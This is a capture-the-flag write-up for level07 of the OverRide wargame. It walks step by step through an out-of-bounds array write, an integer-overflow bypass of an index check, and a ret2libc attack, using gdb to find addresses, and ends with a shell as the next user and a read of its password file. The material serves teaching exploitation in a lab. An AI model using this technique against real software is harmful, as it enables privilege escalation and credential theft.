 # level07

We’re given a simple program that allows us to store and read integers in a buffer.
However, the environment and program arguments are cleared upon execution, so classic shellcode injection won’t work here.

```bash
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command:
```

The `store` command does not check whether the index is within bounds (i.e., between 0 and 99).
This means we can write to arbitrary memory locations by calculating the appropriate index.

Let’s use *gdb* to find the address of the buffer and identify an offset we can use for reference.

```bash
(gdb) b read_number
Breakpoint 1 at 0x80486dd
(gdb) r
...
Input command: read

Breakpoint 1, 0x080486dd in read_number ()
(gdb) x/x ($ebp + 8)
0xffffd520:     0xffffd544
```

Here:

- `0xffffd544` is the address of the first element of the buffer.
- `0xffffd520` is the address passed as a parameter to read_number.

Let’s calculate the offset:

```
0xffffd520 - 0xffffd544 = -0x24 (-36)
sizeof(int) == 4
-36 / 4 = -9
```

So, `buf[-9]` corresponds to the address of the first element. Let's confirm:

```bash
(gdb) c
Continuing.
 Index: -9
 Number at data[4294967287] is 4294956356
 Completed read command successfully
```

We get `4294956356`, which is `0xffffd544`.

Next, we locate the saved return address (`EIP`) of `main`:

```bash
(gdb) b main
Breakpoint 1 at 0x08048729
(gdb) c
Continuing.
Input command: read

Breakpoint 1, 0x0804892b in main ()
(gdb) i f
Stack level 0, frame at 0xffffd710:
 eip = 0x804892b in main; saved eip 0xf7e45513
 Arglist at 0xffffd708, args:
 Locals at 0xffffd708, Previous frame's sp is 0xffffd710
 Saved registers:
  ebx at 0xffffd6fc, ebp at 0xffffd708, esi at 0xffffd700, edi at 0xffffd704, eip at 0xffffd70c
```

Let’s compute the index in the buffer for this address:

```
0xffffd70c - 0xffffd544 = 1c8 (456)
456 / 4 = 114
```

Let's check :

```bash
(gdb) c
Continuing.
 Index: 114
 Number at data[114] is 4158936339
 Completed read command successfully
(gdb) x/x 0xffffd70c
0xffffd70c:     0xf7e45513
```

Since `4158936339 == 0xf7e45513`, we can overwrite the return address using index 114.

The program prevents writing to any index where `index % 3 == 0`.
Since `114 % 3 == 0`, we cannot write to it directly.
We can bypass this using integer overflow. By wrapping around the array using an unsigned integer overflow:

```
(2^32 / 4) + 114 = 1073741938
1073741938 % 3 = 1
```

Now we can target index 114 indirectly via this large value.

Let's get all the classic informations for a ret2libc:

```bash
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>

(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>

(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```

Converting to decimal:

```
system = 4159090384
exit = 4159040368
/bin/sh = 4160264172
```

Let’s run the exploit:

```bash
level07@OverRide:~$ ./level07
...
Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 115
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/level08/.pass
<flag>
```
